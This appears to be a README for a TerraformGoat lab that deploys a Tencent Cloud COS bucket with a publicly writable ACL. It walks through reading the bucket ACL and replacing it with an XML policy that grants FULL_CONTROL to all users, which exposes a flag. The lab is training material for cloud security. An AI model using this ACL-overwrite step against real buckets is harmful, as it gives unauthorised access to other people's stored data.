


# Tencent Cloud COS Bucket ACL writable vulnerability environment

English | [中文](./README_CN.md)

## Description

This is the scenario in which the Tencent Cloud COS bucket ACL is writable.

After you build an environment using Terraform, users can access COS resources that are otherwise unreadable by modifying the Bucket ACL policy.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/tencentcloud/cos/bucket_acl_writable/
```

Edit the `terraform.tfvars` file and write your `tencentcloud_secret_id`and`tencentcloud_secret_key` in the file

```shell
vim terraform.tfvars
```

> You can create and view your SecretKey on the [API Key Management](https://console.cloud.tencent.com/cam/capi) of the Tencent Cloud console

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After the environment is set up, you can see the created Bucket at Outputs.

This Bucket has Bucket ACL read and write permissions.

## Vulnerability Utilization

List Object, return access denied



Attempt to read the Bucket's ACL policy

```shell
https://houxianxxxxx-1234567890.cos.ap-beijing.myqcloud.com/?acl
```


Try to use the PUT method to modify the ACL policy of the Bucket.

The original ACL policy:

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ_ACP</Permission>
</Grant>
```

New ACL Policy:

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
```



Try traversing the Object again, you can see that it can be traversed already, which means that the ACL policy just uploaded is in effect.

In the response message, you can see the flag.


## Destroy the environment

```shell
terraform destroy
```
